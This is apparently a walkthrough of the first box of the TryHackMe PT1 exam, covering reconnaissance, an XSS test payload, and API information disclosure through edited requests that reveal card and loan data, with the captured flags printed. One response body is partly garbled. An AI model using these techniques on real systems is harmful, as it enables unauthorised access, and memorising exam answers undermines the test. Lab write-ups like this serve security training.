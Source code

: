 ```yaml
---
title: "TryHackMe: PT1"
author: c3l1kd
categories: [TryHackMe]
tags: [web application, xss, information disclosure, reconnaissance, nmap, gobuster, burp suite, sql injection, sqlmap, netcat, windows, smb, winrm, evil-winrm, privilege escalation, sebackupprivilege, impacket, bloodhound, kerberos, hashcat, alwaysinstallelevated, linpeas, linux, suid]
render_with_liquid: false
img_path: /images/tryhackme_pt1/
image:
  path: room_image.png
---
```


> THIS IS NOT DETAIL WRITE UP BUT YOU FEEL LIKE COMPLETE😊ALSO SOME SCREENSHOTS ARE NOT AVALIBLE BUT YOU CAN UNDERSTAND
{: .prompt-tip }
## TryHackMe PT1 Certification Overview

**TryHackMe Penetration Tester 1 (PT1)** certification is a practical, hands-on exam designed to validate the skills of aspiring and current Junior Pentesters. It simulates realistic scenarios across three core sections: `Application`, `Network`, and `Active Directory Pentesting`. Candidates are evaluated on their ability to identify, exploit, and report on vulnerabilities, mirroring real-world offensive security engagements. The exam emphasizes fundamental skill sets, including:

- **Reconnaissance & Enumeration:** (`Gathering information using passive and active techniques.`)
- **Web Application Testing:** (`Identifying, exploiting, and reporting common web vulnerabilities.`)
- **Network Penetration Testing:** (`Understanding internal and external network testing techniques.`)
- **Active Directory Exploitation:** (`Performing enumeration and attacks in an Active Directory environment.`)
- **Exploitation & Post-Exploitation:** (`Exploiting vulnerabilities and maintaining access to compromised systems.`)
- **Reporting & Time Management:** (`Documenting findings clearly and managing time effectively within the 48-hour exam duration.`)

> This report serves as a comprehensive documentation of the techniques and findings from the PT1 exam, demonstrating proficiency across these critical domains.
{: .prompt-tip }

## Box 1 (Web Server - API & XSS)
This target primarily involved web application vulnerabilities, specifically Cross-Site Scripting (XSS) and Information Disclosure through API endpoints.

> IP : `10.200.150.100`
{: .prompt-tip }

## Reconnaissance 
```console
$ nmap -sCV -p- -T4 10.200.150.100 -oN 10.200.150.100.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2025-06-07 10:00 EDT
Nmap scan report for 10.200.150.100
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
8080/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.23 seconds
```
> Nothing Found Better In Nmap😁
Let's Make Directory Brute-Forcing Found Find Hidden Dir 
Tool : `gobuster`
```console
$ gobuster dir -u http://10.200.150.100/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,json,xml --status-codes 200,301,302,403
===============================================================
Gobuster v3.5
by OJ (https://github.com/OJ/gobuster)
===============================================================
[+] Url:                     http://10.200.150.100/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:            200,301,302,403
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,html,txt,json,xml
[+] Timeout:                 10s
===============================================================
2025/06/07 10:05:12 Starting gobuster in directory enumeration mode
===============================================================
/loans                (Status: 301)
/api                  (Status: 301)
/index.html           (Status: 200)
/admin                (Status: 403)
... (truncated)
```

we found `http://10.200.150.100/loans/`

> website so top you see `create` button. You will navigate to `http://10.200.150.100/loans/create`.

JUST CREATE IT WITH FAKE DETAILS 

## AS I OBSERVE!
WHEN I CICK ON `CONTINUE` BUTTON IN NETWORK TAB I SEE THE API IS COMING `http://10.200.150.100:8080/api/v1.0/test`

NOTE HERE API IS : `http://10.200.150.100:8080/api/v1.0/`

LETS TEST MORE BUY XSS PAYLOAD LETS SEE INFECTING OR NOT

LETS INPUT HERE AND CONTINUE
![page](01.png){: width="1200" height="600"}
TEST PAYLOAD USED : `<img src=x onerror=(document.cookie='XSS=XSS')>`
I SEE THE POPUP MESSAGE SO IT XSS PAYLOAD
SO IT INJECTED LETS GET THE FLAG NOW

To Get The Flag
```console
$ curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "attacker", "password" : "attacker" }' http://10.200.150.100:8080/api/v1.0/xss
{"flag":"THM{0c8cb256-0c8a-4b59-ac87-1bbb609bef4f}","message":"XSS Success"}
```
Flag-1  Obtained: `THM{0c8cb256-0c8a-4b59-ac87-1bbb609bef4f}`

## 1.2 Information Disclosure
- **Vulnerability Type**: `Information Disclosure via API Endpoints`
To Exploit This Make Sure Brup Is On
![page](02.png){: width="1200" height="600"}
![03](03.png){: width="1200" height="600"}

Now As You Observe In Brup
![brup](04.png){: width="1200" height="600"}
URL Accessed: `http://10.200.150.100:8080/api/v1.0/card`
In This End Pont You Will Observer There Is An Card Details Try To Edit And Send The Req To The Server 
![flag](05.png){: width="1200" height="600"}
```console
http://10.200.150.100:8080/api/v1.0/card
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.3
Date: Sat, 07 Jun 2025 11:02:59 GMT
Content-Type: application/json
Content-Length: 142
Access-Control-Allow-Origin: http://10.200.150.100
Vary: Origin
Connection: close
{"details":{"active":0,"cardNumber":"375914494718066","cvv":"057","expiry":"1/12","flag":"4
cac-bfab-10d5f55ad360}"},"message":"Card updated"}
```
YOU GOT SECOND FLAG 
Flag 2 Obtained: `THM{727723c6-2fe3-4cac-bfab-10d5f55ad360}`

Same Process For Third Flag 

End Point You See : `http://10.200.150.100:8080/api/v1.0/loan?loan_number=e086fc22-85ca-4376-a39a739cdc49c23p`

Now Change The Loan Number You Will Get A Flag
![06](06.png){: width="1200" height="600"}
```console
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.3
Date: Sat, 07 Jun 2025 15:55:33 GMT
Content-Type: application/json
Content-Length: 255
Access-Control-Allow-Origin: http://10.200.150.100
Vary: Origin
Connection: close
{"details":{"amount":50000,"approved":1,"createdAt":"Sat, 07 Jun 2025 15:52:05
GMT","description":"i'm goribs","interest":5,"loan_number":"e086fc22-85ca-4376-a39a739cdc49c22f"},"flag":"THM{9c1a8e66-40b5-41fc-8bde-f821865a5a57}","message":"Loan
updated"}
```
YOU GOT THRID FLAG 
Flag 3 Obtained: `THM{9c1a8e66-40b5-41fc-8bde-f821865a5a57}`

## FINAL FLAG FOR BOX-1
USER UPDATE 
GO TO PROFILE CHANGE THE DETAILD CLICK ON UPDATE 

YOU SEE THE BRUP REQ AND NOW CHANGE THE DETAILS TO ADMIN BUT PROBLEM IS YOU NEED TO GET ADMIN `JWT` FOT TO GET THAT TRY YOU TOOLS LIKE JWT TOKEN EDITE ALSO IN ONLINE SOURCE

YOU GET FINAL FLAG 
![brup](07.png){: width="1200" height="600"}

```console
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.3
Date: Sat, 07 Jun 2025 16:21:35 GMT
Content-Type: application/json
Content-Length: 78
Access-Control-Allow-Origin: http://10.200.150.100
Vary: Origin
Connection: close
THM{ad3bbf7b-a8e4-40de-b839-91ba91329eb5}
{"flag":"THM{ad3bbf7b-a8e4-40de-b839-91ba91329eb5}","message":"User updated"}
```
Final Flag Obtained: `THM{ad3bbf7b-a8e4-40de-b839-91ba91329eb5}`

BOX 1 DONE

